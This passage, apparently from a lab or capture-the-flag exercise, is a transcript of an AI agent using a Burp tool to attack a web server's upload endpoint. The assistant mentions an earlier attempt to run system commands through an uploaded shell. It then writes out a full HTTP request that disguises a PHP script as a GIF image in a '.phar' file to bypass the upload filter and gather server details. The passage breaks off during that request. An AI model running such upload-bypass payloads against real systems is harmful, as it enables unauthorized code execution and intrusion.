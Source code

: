 
**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 200 OK
Date: Wed, 07 May 2025 23:41:42 GMT
Server: Apache/2.4.55 (Ubuntu)
Content-Length: 20
Connection: close
Content-Type: text/html; charset=UTF-8

GIF89a;
<pre></pre>
<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:41:44 PM (America/New_York, UTC-4:00)

# Context Window Usage
49,439 / 200K tokens used (25%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
Still no output. This suggests that either the commands are being executed but there's no output, or the commands are failing silently, or there might be some security mechanism preventing command execution.

Let's try a different approach. Let's try to use PHP's built-in functions to get information about the server, rather than trying to execute system commands. Let's modify our shell to use PHP's built-in functions:
</thinking>

Still no output. Let's try a different approach by using PHP's built-in functions to get information about the server, rather than trying to execute system commands.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 324\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"info.phar\"\r\nContent-Type: image/jpeg\r\n\r\nGIF89a;\r\n<?php\r\necho \"<pre>\";\r\necho \"PHP Version: \" . phpversion() . \"\\n\";\r\necho \"Server Info: \" . php_uname() . \"\\n\";\r\necho \"Current User: \" . get_current_user() . \"\\n\";\r\necho \"</pre>\";\r\n?>\r\n-----------------------------12345678901234567890123456789--",